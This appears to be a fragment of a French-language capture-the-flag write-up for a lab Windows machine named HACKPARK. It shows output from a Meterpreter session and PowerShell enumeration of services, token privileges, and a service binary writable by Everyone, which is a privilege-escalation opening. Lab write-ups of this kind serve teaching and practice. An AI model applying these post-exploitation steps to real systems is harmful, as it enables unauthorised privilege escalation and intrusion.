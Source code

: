Execution manuelle : OK

```
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

```ps1
c:\inetpub\wwwroot\App_Data\files>powershell -c Get-Service 

Status   Name               DisplayName                           
------   ----               -----------                           
R(...)     
Running  WindowsScheduler   System Scheduler Service              
```

```ps1
powershell -c "Get-WmiObject win32_service | ?{$_.Name -like 'WindowsScheduler'} | select Name, PathName"

Name                                    PathName                               
----                                    --------                               
WindowsScheduler                        C:\PROGRA~2\SYSTEM~1\WService.exe  
```


PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] SERVICES VULNERABILITIES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] SERVICE BINARY PERMISSIONS WITH WMIC + ICACLS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe NT AUTHORITY\SYSTEM:(I)(F)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)
C:\Program Files\Amazon\XenTools\LiteAgent.exe NT AUTHORITY\SYSTEM:(I)(F)
C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe NT AUTHORITY\SYSTEM:(I)(F)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)
C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
